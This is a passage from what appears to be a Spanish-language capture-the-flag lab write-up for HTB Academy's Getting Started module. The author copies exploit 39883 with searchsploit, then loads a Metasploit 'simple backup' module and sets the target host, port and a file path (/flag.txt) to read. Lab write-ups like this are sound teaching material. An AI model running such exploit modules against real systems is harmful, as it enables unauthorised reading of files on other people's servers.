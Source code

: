 Con el comando searchsploit -m 39883 hago una copia al directorio actual de exploit para poder leerlo

![alt text](../assets/images/HTB_Academy_Getting_Started/image-15.png)

Compruebo si en Metasploit existe el exploit para explotarlo con la herramienta.

```sh
msfconsole -q
search simple backup
use 0
show options
```

![alt text](../assets/images/HTB_Academy_Getting_Started/image-16.png)

Defino los parametros necesarios.

```sh
set RHOSTS 94.237.59.180
set RPORT 54822
set FILEPATH /flag.txt
```
